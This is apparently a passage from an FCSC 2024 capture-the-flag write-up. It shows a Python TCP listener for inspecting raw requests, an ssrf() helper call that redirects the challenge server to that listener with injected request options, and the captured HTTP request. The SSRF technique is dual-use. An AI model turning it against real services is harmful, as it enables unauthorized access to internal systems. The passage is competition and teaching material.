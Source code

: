 Finally, to check that the options have been added correctly, I've added a listening TCP socket to debug received requests and view them in raw.

Here's the executed application: 
```python
import socket, os, sys

print(f'Listening on port 2222', flush=True)

server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)    
server_socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
server_socket.bind(('0.0.0.0', 2222))    
server_socket.listen(5)

i = 0  

while True:
    client_socket, client_address = server_socket.accept() 
    data = client_socket.recv(2048)
    data_dec = str(data)[2:-1].replace("\\n", "\\n\n")
    print(f'''
------------------------------------------------
Request: {str(i)}'
------------------------------------------------
Data: 
{str(data)}

Decoded:
{data_dec}
------------------------------------------------

''', flush=True)
    i += 1
    client_socket.close()
```

You can check that the options are actually being used, using the User-Agent for example: 

```python
ssrf(
    where='host.docker.internal:2222',
    options=urlenc(options)
)
```

The result is  
```python
------------------------------------------------
Request: 0'
------------------------------------------------
Data:
b'GET /?a=voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.fcsc2024.fr:5000 HTTP/1.1\r\nHost: host.docker.internal:2222\r\nUser-Agent: HelloThere\r\nAccept: */*\r\n\r\n'

Decoded:
GET /?a=voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.voz.ec.fcsc2024.fr:5000 HTTP/1.1
Host: host.docker.internal:2222
User-Agent: HelloThere
Accept: */*


------------------------------------------------
```

[//]: <> (Wrote By Vozec 12/04/2024)